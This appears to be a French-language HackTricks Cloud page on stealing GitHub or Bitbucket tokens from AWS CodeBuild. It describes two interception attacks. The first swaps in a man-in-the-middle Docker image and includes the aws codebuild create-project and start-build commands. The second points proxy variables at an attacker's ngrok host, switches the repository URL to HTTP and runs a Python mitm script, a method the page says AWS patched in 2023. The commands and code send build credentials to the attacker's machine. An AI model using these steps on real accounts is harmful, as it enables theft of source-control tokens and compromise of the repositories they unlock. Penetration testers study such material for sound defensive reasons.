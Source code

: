 # AWS Codebuild - Fuite de jetons

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Récupérer les jetons configurés de Github/Bitbucket

### Via l'image Docker

Si vous constatez que l'authentification, par exemple sur Github, est configurée dans le compte, vous pouvez **exfiltrer** cet **accès** (**jeton GH ou jeton OAuth**) en faisant en sorte que Codebuild **utilise une image Docker spécifique** pour exécuter la construction du projet.

À cette fin, vous pouvez **créer un nouveau projet Codebuild** ou modifier l'**environnement** d'un projet existant pour définir l'**image Docker**.

L'image Docker que vous pouvez utiliser est [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Il s'agit d'une image Docker très basique qui définira les variables d'environnement `https_proxy`, `http_proxy` et `SSL_CERT_FILE`. Cela vous permettra d'intercepter la plupart du trafic de l'hôte indiqué dans `https_proxy` et `http_proxy` et de faire confiance au CERT SSL indiqué dans `SSL_CERT_FILE`.

1. **Créez et téléchargez votre propre image Docker MitM**
* Suivez les instructions du dépôt pour définir l'adresse IP de votre proxy et définir votre certificat SSL et **construisez l'image Docker**.
* **NE DÉFINISSEZ PAS `http_proxy`** pour ne pas intercepter les demandes vers le point de terminaison des métadonnées.
* Vous pouvez utiliser **`ngrok`** comme `ngrok tcp 4444` pour définir le proxy vers votre hôte.
* Une fois l'image Docker construite, **téléchargez-la dans un dépôt public** (Dockerhub, ECR...)
2. **Définissez l'environnement**
* Créez un **nouveau projet Codebuild** ou **modifiez** l'environnement d'un projet existant.
* Configurez le projet pour utiliser l'**image Docker précédemment générée**
*

<figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
3. **Définissez le proxy MitM sur votre hôte**
* Comme indiqué dans le **dépôt Github**, vous pouvez utiliser quelque chose comme : `mitmproxy --listen-port 4444 --set block_global=false --allow-hosts "github.com"`
4. **Exécutez la construction et capturez les informations d'identification**
* Vous pouvez voir le jeton dans l'en-tête Authorization :

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Cela peut également être fait à partir de la ligne de commande aws avec quelque chose comme

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER",
"image": "docker.io/carlospolop/docker-mitm:v6",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
},
"serviceRole": "arn-service-role"
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via le protocole HTTP

{% hint style="success" %}
**Cette vulnérabilité a été corrigée par AWS à un moment donné la semaine du 20 février 2023 (je pense le vendredi). Donc un attaquant ne peut plus l'exploiter :)**
{% endhint %}

Un attaquant disposant de **permissions élevées sur un CodeBuild pourrait divulguer le jeton Github/Bitbucket** configuré ou, si les permissions ont été configurées via OAuth, le **jeton OAuth temporaire utilisé pour accéder au code**.

* Un attaquant pourrait ajouter les variables d'environnement **http\_proxy** et **https\_proxy** au projet CodeBuild en les pointant vers sa machine (par exemple `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

* Ensuite, changer l'URL du dépôt github pour utiliser HTTP au lieu de HTTPS, par exemple : **http://**github.com/carlospolop-forks/TestActions
* Ensuite, exécuter l'exemple de base à partir de [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) sur le port indiqué par les variables de proxy (http\_proxy et https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Enfin, cliquez sur **Build the project**, les **informations d'identification** seront **envoyées en texte clair** (base64) vers le port mitm :

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Maintenant, un attaquant pourra utiliser le jeton depuis sa machine, lister tous les privilèges qu'il possède et les exploiter plus facilement que d'utiliser le service CodeBuild directement.
{% endhint %}

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
